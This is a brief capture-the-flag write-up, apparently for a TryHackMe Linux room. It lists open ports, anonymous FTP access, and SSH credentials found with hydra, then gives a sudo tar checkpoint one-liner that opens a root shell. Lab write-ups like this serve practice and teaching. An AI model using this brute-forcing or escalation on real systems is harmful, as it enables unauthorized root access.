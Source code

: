 ##Easy room to practice basic enumeration and privilege escalation in linux

#Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
#FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

#Found login and password to ssh using hydra

```
user: ***
password: *******************

```
#Found flag1: `THM{*****_*********}`

#Using sudo -l found that user can run tar as sudo 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
opens a shell as root and then found root flag under/root/root.txt
#Found flag2:`THM{******_******}`

